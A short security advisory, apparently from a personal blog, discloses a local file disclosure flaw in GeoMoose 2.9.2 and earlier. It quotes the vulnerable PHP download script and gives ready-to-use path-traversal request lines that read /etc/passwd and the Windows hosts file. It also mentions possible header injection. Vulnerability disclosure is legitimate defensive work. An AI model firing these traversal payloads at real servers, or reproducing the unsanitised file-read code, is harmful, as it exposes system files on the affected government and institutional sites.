 Title: GeoMoose <= 2.9.2 Local File Disclosure
Author: dsc
Date: 2017-03-7 11:12
Tags: advisory, exploits
Slug: geomoose-local-file-disclosure-2-9-2

## Advisory

GeoMOOSE is a PHP framework for displaying distributed cartographic data. Bundled with M4SW, GeoMoose can be found on 
GIS services ran by scientific institutions and local governments.

    :::php5
    <?php
    $tempDir = $CONFIGURATION['temp'];
    $id = $_REQUEST['id'];
    $ext = $_REQUEST['ext'];
    $as_download = $_REQUEST['download'];
    $mimetypes = array(
        'pdf' => 'application/pdf',
        'jpeg' => 'image/jpeg',
        'png' => 'image/png',
        'gif' => 'image/gif',
        'html' => 'text/html',
        'csv' => 'text/csv'
    );
    header('Content-type: '.$mimetypes[$ext]);
    if($as_download == 'true') {
        header('Content-Disposition: attachment; filename=download_'.getmypid().time().'.'.$ext);
    }
    readfile($tempDir.$id.'.'.$ext);
    ?>

This one is easy.
    
    :::bash
    # Exploit Title: GeoMoose <= 2.9.2 Local File Disclosure
    # Date: 2017-03-4
    # Author: Sander 'dsc' Ferdinand
    # Blog: https://ced.pwned.systems
    # Vendor Homepage: geomoose.org
    # Reported: 4-3-2017
    # Vendor response: http://osgeo-org.1560.x6.nabble.com/Geomoose-users-GeoMoose-Security-Issue-td5315873.html
    # Software Link: https://github.com/geomoose/geomoose
    # Tested on: Windows/Linux
    # CVE : none
    
    /php/download.php?id=foo/.&ext=/../../../../../../../etc/passwd
    /php/download.php?id=foo/.&ext=/../../../../../../../WINDOWS/system32/drivers/etc/hosts
    
Header injection possible depending on the [PHP version](http://php.net/manual/en/function.header.php#refsect1-function.header-changelog).